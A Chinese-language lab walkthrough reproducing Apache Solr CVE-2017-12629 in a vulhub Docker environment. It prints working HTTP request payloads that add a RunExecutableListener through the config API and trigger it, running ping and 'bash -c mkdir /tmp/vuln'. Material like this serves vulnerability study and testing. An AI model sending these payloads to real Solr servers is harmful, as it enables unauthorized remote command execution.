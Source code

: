 ```yaml
---
title:  Apache Solr RCE 远程命令执行漏洞 CVE-2017-12629
---
```


# Apache Solr RCE 远程命令执行漏洞 CVE-2017-12629

## 漏洞描述
Apache Solr 是一个开源的搜索服务器。Solr 使用 Java 语言开发，主要基于 HTTP 和 Apache Lucene 实现。原理大致是文档通过Http利用XML加到一个搜索集合中。查询该集合也是通过 http收到一个XML/JSON响应来实现。此次7.1.0之前版本总共爆出两个漏洞：XML实体扩展漏洞（XXE）和远程命令执行漏洞（RCE），二者可以连接成利用链，编号均为CVE-2017-12629。

## 影响版本
<a-checkbox checked>Apache Solr < 7.1</a-checkbox></br>

## 环境搭建
```shell
git clone https://github.com/vulhub/vulhub.git
cd vulhub/solr/CVE-2017-12629
docker-compose build
docker-compose up -d
```

## 漏洞复现
先请求url地址获取 core 内容
```shell
/solr/admin/cores
```
通过查看代码，能够触发命令执行的事件有两个：`postCommit` 和`newSearcher`

![ec27d0b9-f86d-43b7-9fe4-1bba02cbf334](../../../.vuepress/public/img/ec27d0b9-f86d-43b7-9fe4-1bba02cbf334.png)



第一个请求包用于载入缓存中

```
exe : ping  执行的命令
dir: 命令存在的目录位置
args:命令参数
```

如下请求包执行的是 /bin/ping 1.1.1.1

```shell
POST /solr/demo/config HTTP/1.1
Host:
Connection: close
Content-Type: application/json  
Content-Length: 198

{
  "add-listener" : {
    "event":"postCommit",
    "name":"newlistener-1",
    "class":"solr.RunExecutableListener",
    "exe":"ping",
    "dir":"/bin/",
    "args":["1.1.1.1"]
  }
}
```

![image-20220307151501330](../../../.vuepress/public/img/image-20220307151501330.png)

第二个请求包用于更新缓存并执行命令

```shell
POST /solr/demo/update

[{"id":"test"}]
```
进入docker容器查看发现命令已经执行

![53ffedcf-5cc3-42cf-9623-a076ed001ac8](../../../.vuepress/public/img/53ffedcf-5cc3-42cf-9623-a076ed001ac8.png)

使用 newSearcher可以直接加载入缓存执行命令

```shell
POST /solr/demo/config HTTP/1.1
Host:
Connection: close
Content-Type: application/json  
Content-Length: 198

{
  "add-listener" : {
    "event":"newSearcher",
    "name":"newlistener-2",
    "class":"solr.RunExecutableListener",
    "exe":"bash",
    "dir":"/bin/",
    "args":[
         "-c",
         "mkdir /tmp/vuln",
    ]
  }
}
```

成功执行了创建文件的命令

![567692f5-4845-439f-b747-020011068da8](../../../.vuepress/public/img/567692f5-4845-439f-b747-020011068da8.png)

如果想要执行其他命令,则需要命令的的位置，例如执行ping，则需要设置dir参数为 /usr/bin/ping 或者 /bin/ping，如果需要检测漏洞是否存在则可以使用 dnslog来检测

